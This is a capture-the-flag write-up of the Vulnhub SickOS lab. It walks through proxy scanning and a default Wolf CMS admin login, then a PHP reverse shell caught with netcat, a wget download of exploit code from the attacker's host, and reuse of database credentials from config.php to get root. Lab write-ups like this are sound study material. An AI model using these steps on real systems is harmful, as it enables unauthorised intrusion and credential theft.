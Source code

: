 # Vulnhub SickOS 

**My SetUp**
- VMware Workstation Pro
- Kali: 172.16.126.129
- SickOS: 172.16.126.135

(I used NAT for both Machines)

## Nmap

`sudo nmap -vvv -sC -sV 172.16.126.135 -oA sickos`

![nmap](https://user-images.githubusercontent.com/76433661/152642864-d4d8492b-a383-4ce3-a47b-8953aae8d859.png)


Port 22, 3128, and 8080 seemed to be opened.

SSH is usually not worthit unless SSH version is severely outdated, so I decided to move on to port 3128 right away. 

## Checking out Port 3128

In order to check out port 3128 on web browser, little change with the browser network setting has to be made. (I used firefox)

![firefox_proxy_setup](https://user-images.githubusercontent.com/76433661/152642919-401787be-ea0f-4d78-be0c-928dcfb6fc74.png)

Browser has to go through proxy (port 3128) in order to access the page. 

![blehh](https://user-images.githubusercontent.com/76433661/152642953-584290dc-cdef-4845-8b82-8d76bba55bb8.png)

I could only see the ugly `blehhh` on the page so I tried looking for more directories. 

I always check out `robots.txt` first and it seemed like there is a page running `wolfcms`.

Now I moved to `172.16.126.135/wolfcms`.

![wolfcms](https://user-images.githubusercontent.com/76433661/152643029-11dd67b4-b782-499b-8248-8f34bc591b15.png)

Before searching for vulnerbilities for wolfcms, I wanted to see if there are more hidden directories, so I ran `dirb`.

Dirb needs to go through proxy so used the command below.

`dirb http://172.16.126.135/wolfcms -p 172.16.126.135:3128`

But nothing special showed up. 

After doing some researches, I decided to use exploit from [Arbitrary File Upload Vuln](https://www.exploit-db.com/exploits/38000).

I found out there is an admin page at `172.16.126.135/?/admin`.

![login](https://user-images.githubusercontent.com/76433661/152643116-c9dcd892-8369-4da1-b034-dc7e685c2816.png)

Even before trying bruteforcing, I tired `admin;admin` and it worked right away.

![main](https://user-images.githubusercontent.com/76433661/152643172-f65d45f7-c63a-46cf-bcfc-4012c788c053.png)

## Exploitation

Now that I am inside the system, only thing I need to do is to upload arbitrary PHP file, and capture the reverse shell with the nc command. 

I used [pentestmonkey php revershell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to upload my code on the system.

And my Kali machine was waiting to capture the signal with the command `nc -lvp 1234`

After that, I went to PHP file link through browser using the following link `http://172.16.126.135/wolfcms/public/shell.php`.

Now I checked my kali terminal, and I had a shell popped open. 

![shell](https://user-images.githubusercontent.com/76433661/152643328-bd97c07c-0dfb-4923-b709-9a4e67290be9.png)

## Getting the root access

Now that I have a working shell, I need to gain root access. 

At first, I thought this is a privilege escalation problem so I researched lot about Kernel exploitation. I donwloaded two exploit from exploit-db.com, and copied the file over to `/tmp` folder using `python3 -m http.server` and `wget http://172.16.126.129:8000/exploit.c`.

However, after several tries, I found out I am stuck and moved on to different perspective.

I moved my directory to `/var/www/wolfcms` to see what information I can find. 

![ls_wolfcms](https://user-images.githubusercontent.com/76433661/152644770-c0ecb483-5b6a-46ef-aca9-01ec68447f41.png)

I took a look at `config.php` file, and there was mysql username and password. *findout the password and username byyouself*

Now that I have potential username and password, I tried `ssh`.

I first tried the username `root`, but it was not it, so I tired the username `sickos`, which worked out. 

![ssh](https://user-images.githubusercontent.com/76433661/152644825-81891229-0ae7-4973-a5f8-db0a728a75c0.png)

I changed the user by `sudo su root`

Moved my working directory to `/root` and found the flag. 

![end](https://user-images.githubusercontent.com/76433661/152644896-43482539-fcda-4920-b988-48db3dac8ea8.png)

## Further studies to be done
hydra bruteforce *how to hydra through proxy*

PHP code upload bypass methods ex) magic number, encoding, etc

What enumerations should I be doing at low-user status

Privilege Escalation ex) kernel exploitation, sudo , suid, etc

## Thoughts

This machine was marked as Easy machine, and it was indeed easy.

Although I got helped from several sources (not walkthroughs), it tooks me less then 4 hours to finish the machine. 

This is a well made boot2root box.

Rating 8/10

##### Notice
If any part of my writeup needs to be deleted or violates something, make a commit and I will make changes.
